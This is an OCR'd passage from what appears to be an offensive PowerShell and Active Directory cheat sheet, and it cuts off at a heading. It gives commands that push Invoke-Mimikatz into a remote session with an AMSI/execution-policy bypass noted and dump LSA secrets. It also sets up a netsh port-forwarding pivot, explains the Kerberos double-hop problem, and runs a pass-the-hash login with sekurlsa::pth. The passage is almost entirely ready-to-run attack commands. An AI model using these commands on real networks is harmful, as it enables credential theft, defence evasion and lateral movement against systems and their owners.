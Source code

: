 Enter-PSSession $sess # EP BYPASS + AMSI BYPASS

exit

# PUSH LOCAL SCRIPT TO SESSION

Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession $sess

# DUMPING

Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

### FORWARDER

# RULE

netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=10.10.10.10 connectport=8080

# CHECK

netsh interface portproxy show all

# RESET netsh interface portproxy reset

### KERBEROS DOUBLE HOPS - Remote ticket dumping - SMB Lateral Hosting (skill)

> You are logged in to ServerA.
> 
- From ServerA, you start a remote PowerShell session to connect to ServerB.
- A command you run on ServerB via your PowerShell Remoting session attempts to access a resource on ServerC.

Access to the resource on ServerC is denied, because the credentials you used to create the PowerShell Remoting session are not passed from ServerB to ServerC.

Cannot encapsulate multiple psremoting session. Delegation not available.

# LOGIN WITH COMPROMISED ACCOUNT

Invoke-Mimikatz -Command '"sekurlsa::pth /user:bob /domain:DOMAIN.LOCAL /ntlm:00000000000000000000000000000000 /run:powershell.exe"'

# PSREMOTE TO SERVER A
